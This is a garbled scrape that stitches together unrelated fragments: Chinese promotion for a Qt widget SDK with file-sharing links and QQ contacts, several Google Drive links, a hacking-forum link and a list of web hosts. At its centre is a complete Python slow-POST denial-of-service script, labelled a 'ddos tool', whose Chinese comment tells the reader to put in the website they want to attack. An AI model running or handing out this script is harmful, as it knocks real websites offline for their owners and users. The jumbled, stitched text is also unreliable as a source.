 http://blog.sina.com.cn/liang19890820
qt组件   简书：https://www.jianshu.com/u/1250ab46f9ad
https://www.jianshu.com/c/1b908f2aab44
SDK下载链接：https://pan.baidu.com/s/1A5Gd77kExm8Co5ckT51vvQ 提取码：877p
下载链接中包含了各个版本的动态库文件，所有控件的头文件，使用demo，自定义控件+属性设计器。
自定义控件插件开放动态库dll使用（永久免费），无任何后门和限制，请放心使用。
目前已提供26个版本的dll，其中包括了qt5.12.3 msvc2017 32+64 mingw 32+64 的。
不定期增加控件和完善控件，不定期更新SDK，欢迎各位提出建议，谢谢！
widget版本（QQ：517216493）qml版本（QQ：373955953）三峰驼（QQ：278969898）。
涛哥的知乎专栏 Qt进阶之路 https://zhuanlan.zhihu.com/TaoQt
欢迎关注微信公众号【高效程序员】，C++/Python、学习方法、写作技巧、热门技术、职场发展等内容，干货多多，福利多多！
Qt入门书籍推荐霍亚飞的《Qt Creator快速入门》《Qt5编程入门》，Qt进阶书籍推荐官方的《C++ GUI Qt4编程》。
强烈推荐程序员自我修养和规划系列书《大话程序员》《程序员的成长课》《解忧程序员》

链接：https://pan.baidu.com/s/10LeAj8vcXaTjr8MgKjRC9A 
提取码：78bz 
复制这段内容后打开百度网盘手机App，操作更方便哦

链接：https://pan.baidu.com/s/1asDezZy9ZfLZ2LIa3RsIaQ 
提取码：liol 
复制这段内容后打开百度网盘手机App，操作更方便哦

用户名
@StockMarketGossip

https://drive.google.com/file/d/1dF8K5RzVT6EC9I84LTdp5bCC0vn2LbnG/view

https://edu.csdn.net/course/detail/10750

https://drive.google.com/file/d/1DNRlFUil5O4CEhkUpfnGjXTdr9tOp21r/view?usp=sharing

https://drive.google.com/file/d/1Cnl42jLjVgpyO4PkIFzKWDLwjVy8cVCZ/view?usp=sharing

https://github.com/fluttercandies/wechat_flutter

#!/usr/bin/env python// .ly https://sinister   hz2vAkv#aLfZ   https://hackforums.net/member.php
#https://paper.seebug.org/142/
#https://core.ac.uk/download/pdf/154333223.pdf
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
    
    
    
 CertifiedHosting - 成立于1999年，CertifiedHosting提供共享虚拟主机，经销主机托管和独立服务器。
NameCheap - Namecheap成立于2000年，是目前互联网上最大的域名注册商之一。自成立以来，Namecheap提供了许多服务，包括共享主机，经销主机托管，VPS主机和专用服务器。
BitcoinWebHosting - BitcoinWebHosting是专门提供主机服务给比特币社区的美国主机商。

https://clients.hostsailor.com/viewinvoice.php?id=171054

